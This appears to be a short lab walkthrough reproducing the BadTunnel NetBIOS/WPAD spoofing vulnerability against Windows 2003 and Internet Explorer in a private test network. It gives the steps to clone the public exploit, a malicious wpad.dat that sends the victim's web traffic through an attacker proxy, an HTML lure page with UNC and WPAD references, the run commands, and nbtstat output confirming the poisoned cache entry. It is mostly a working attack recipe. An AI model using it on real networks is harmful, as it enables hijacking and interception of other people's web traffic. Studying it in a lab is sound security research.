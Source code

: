 ```yaml
---
title: BadTunnel Vulnerability
date: 2016-06-22 15:25:29
type: "BadTunnel"
---
```



#### Test Environment
```
Kali    10.0.5.9
Windows2003     10.0.5.100
```
#### Download EXP

[BadTunnel](https://github.com/T3rry7f/BadTunnel_exp)
```
> git clone https://github.com/T3rry7f/BadTunnel_exp    #save to www filepath
```
[HttpProxy](https://raw.githubusercontent.com/Anorov/PySocks/master/test/httpproxy.py)
```
> wget https://raw.githubusercontent.com/Anorov/PySocks/master/test/httpproxy.py  #edit app.listen(port, address="0.0.0.0")
```

#### Step
> vi wpad.dat

```
function FindProxyForURL(url, host) {
      // URLs within this network are accessed directly
      if (isInNet(host, "127.0.0.1", "255.255.255.0"))
      {
         return "DIRECT";
      }
      return "PROXY 10.0.5.9:8081; DIRECT";
   }
```
> vi badtunnel_test.html

```
<html>

<img src="\\10.0.5.9\BadTunnel">

<img src="http://WPAD/wpad.dat">

</html>
```

```
> python httpproxy.py
> python badtunnel.py 10.0.5.9
```
settings ie proxy "Automatic check setting",then
Using ie browser open site http://10.0.5.9/badtunnel_test.html

Windows dos views
```
C:\Documents and Settings\Administrator> nbtstat -c
```
```
本地连接:
Node IpAddress: [10.0.5.100] Scope Id: []

                  NetBIOS Remote Cache Name Table

        Name              Type       Host Address    Life [sec]
    ------------------------------------------------------------
    WPAD           <00>  UNIQUE          10.0.5.9            352
```


